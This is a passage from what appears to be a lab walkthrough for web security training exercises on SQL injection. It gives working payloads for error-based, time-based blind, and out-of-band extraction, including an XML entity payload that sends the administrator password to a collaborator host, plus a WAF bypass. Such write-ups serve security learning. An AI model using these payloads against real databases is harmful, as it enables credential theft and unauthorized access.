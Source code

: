 This is the final query: `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

---
### Blind SQL injection with time delays

In the tracking ID, this is your payload: `'||pg_sleep(10)--`

---
### Blind SQL injection with time delays and information retrieval

This query to check the app take 10 seconds to responds: `'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`. The `%3B` is a `;` 

This to see if exists an 'administrator' user from the 'users' table.
`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

This query to check how many characters the password has: `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--` In this case, it has 20. 

Now in the repeater, adding the substring parameter, we can get the password.

This query: `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

Set up the attack, in the Resource Pool, create a new one, with a "Maximum concurrent requests" value of 1. 
Then send it, and check the column "Response received"

This is the password: 9k46suvve4cds9iybfcz

---
### Blind SQL injection with out-of-band interaction

This is your payload: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

---
### Blind SQL injection with out-of-band data exfiltration

This is your payload: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

You'll receive the password in the host header, in the burp collaborator.

---
### SQL injection with filter bypass via XML encoding

You'll need to bypass the WAF. For that:
Install the Hackvertor extension. Then right click > extensions > Hackvertor > Encode > hex_entities

Input this in the `<StoreId>`:
 `<@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>`

